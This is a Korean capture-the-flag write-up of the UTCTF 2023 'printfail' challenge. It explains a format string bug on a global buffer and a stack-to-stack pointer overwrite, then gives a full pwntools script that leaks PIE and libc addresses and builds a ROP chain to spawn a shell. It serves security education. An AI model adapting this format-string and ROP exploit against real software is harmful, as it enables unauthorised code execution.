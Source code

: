 ```yaml
---
layout: post
title: "[UTCTF 2023] Printfail write-up"
date: 2023-03-28 15:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux, FSB]
img_path: 2023-03-29-printfail
---
```


## [0x00] 요약

---

BSS 입력 버퍼를 대상으로 FSB가 발생할 때, stack-to-stack pointer를 활용하여 익스플로잇하는 문제

## [0x01] 접근 방법

---

![buf](1.png)

512바이트 전역 배열 buf가 존재합니다.

![run_round](2.png)

그리고, main 함수에서 위와 같은 함수를 실행해주는데, 단순하게 Format String Bug가 전역 변수를 대상으로 발생하는 상황입니다.

본래 로직대로라면, 1자리 이상의 값을 입력할 경우, `a1`의 값이 0으로 덮어써지게 되고 이 함수는 한 번의 실행밖에 못 하는 것이 정상입니다. 이 상황을 해결하려면 어떻게 해야 할까요?

## [0x02] 분석

---

본래 로직대로라면, 1자리 이상의 값을 입력할 경우, `run_round` 함수의 첫 번째 인자인 `a1`의 값이 0으로 덮어써지게 되고 이 함수는 한 번의 실행밖에 못 하는 것이 정상입니다.

그러나, `run_round` 함수의 인자로 `a1`의 주소가 들어있다는 점을 이용한다면, 해당 주소에 값을 덮어쓸 수 있고 이로 인해 반복적인 FSB 실행이 가능하게 됩니다.

![printf](3.png)

위는 printf 함수가 호출되기 직전의 스택 상황을 살펴본 것입니다. 7번째 인자 부분에 a1 포인터 변수가 위치한 것을 확인할 수 있습니다.

이제 이 값을 반복적으로 덮어줌(`%7$n`)으로써, FSB를 여러 번 호출하고 익스플로잇에 성공해봅시다. (이때, 입력이 수행되는 buf가 BSS 영역에 위치하고 있음에 주의합니다.)

이를 해결할 수 있는 방법으로는 스택에서 스택을 가리키고 있는 값을 이용하였습니다.

![stack](4.png)

위는 `run_round + 132` 부분으로, `printf` 함수를 호출하기 직전의 스택 상황입니다. 이때, 15번째 인자의 값이 스택(빨간색 네모)을 가리키고 있고, 그 주소(주황색 네모) 또한 스택을 가리키고 있습니다. 이를 이용하면, 15번째 인자를 2바이트(`%15$hn`)만큼 원하는 스택 주소로 덮어쓰고, 43번째 인자에서 원하는 값을 작성할 수 있고, 이로 인해 스택에 원하는 값을 작성할 수 있게 됩니다.

## [0x03] 익스플로잇

---

```python
from pwn import *

def overwrite_2(addr, val):
    payload = f'%{addr % 0x10000}c%15$hn%7$n'.encode()
    p.sendlineafter(b'\n', payload)
    p.recvuntil(b"I'll give you another chance.\n")

    if val == 0:
        payload = f'%43$hn%c%7$n'.encode()
    else:
        payload = f'%{val}c%43$hn%7$n'.encode()
    p.sendlineafter(b'\n', payload)
    p.recvuntil(b"I'll give you another chance.\n")

def overwrite_4(addr, val):
    overwrite_2(addr, val & 0xFFFF)
    overwrite_2(addr + 2, val >> 16)

def overwrite_8(addr, val):
    overwrite_4(addr, val & 0xFFFFFFFF)
    overwrite_4(addr + 4, val >> 32)

context.terminal = ["tmux", "splitw", "-h"]
p = process('./pwn_printfail', aslr=1)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)

payload = b'%6$p:%7$p:%7$n'
p.sendlineafter(b"\n", payload)

PIE_base = int(p.recvuntil(b":", drop=True), 16) - 0x1120
Stack = int(p.recvuntil(b":", drop=True), 16) - 0x24
RET = Stack + 0x38

log.success(f"PIE base : {hex(PIE_base)}")
log.success(f"main RET : {hex(RET)}")

overwrite_8(RET, PIE_base + 0x3FA0)
payload = b'%13$s:%7$n'
p.sendlineafter(b"\n", payload)
p.recvuntil(b"I'll give you another chance.\n")
libc.address = u64(p.recv(6) + b'\x00\x00') - libc.symbols['puts']
log.success(f"libc base : {hex(libc.address)}")

pop_rdi = PIE_base + 0x1373
pop_r14_r15 = PIE_base + 0x1370
binsh = list(libc.search(b"/bin/sh"))[0]

log.info(f"pop_rdi : {hex(pop_rdi)}")
log.info(f"binsh : {hex(binsh)}")
log.info(f"system : {hex(libc.symbols['system'])}")
overwrite_8(RET, pop_r14_r15)
overwrite_8(RET + 0x18, pop_rdi)
overwrite_8(RET + 0x20, binsh)
overwrite_8(RET + 0x28, libc.symbols['system'])
p.sendlineafter(b"chance.\n", b'1')

p.interactive()
```

처음에는 rtld_global로 libc leak을 수행했는데, 원격 환경에서는 익스플로잇이 안 되길래 puts GOT를 출력하여 libc leak을 다시 수행하였습니다. 그리고, 스택의 RET 부분에 ROP 페이로드를 작성하여 익스플로잇을 수행하였습니다.

![flag](5.png)

 `utflag{one_printf_to_rule_them_all}`

## [0x04] 참고 자료

---

- 출제자 write-up: [https://github.com/utisss/UTCTF-23/tree/main/puffer/pwn-printfail](https://github.com/utisss/UTCTF-23/tree/main/puffer/pwn-printfail)
    - 풀이는 저와 똑같습니다. 다만 ROP 클래스를 활용해서 익스플로잇을 쉽게 짜는 건 부럽긴 하네요. 참고해야겠습니다.
- MIsutgaRU님 write-up: [https://mi-sutga-ru.tistory.com/23](https://mi-sutga-ru.tistory.com/23)
    - `_dl_fini` 함수 내부 루틴을 활용한 익스플로잇입니다.
    - `_dl_fini`->`add_r14_gadget`->`main`->`one_gadget` 순서로 호출하여, 쉘을 따낸 방식인데, 본래 `_fini_array`를 가리키고 있던 값을 buf로 옮긴 것도 중요하지만, `add_r14_gadget`을 활용하여 연속적으로 원하는 가젯을 호출하였다는 것이 더 중요합니다. 나중에 다른 문제를 풀 때도 참고할 수 있을만한 방법으로 보입니다.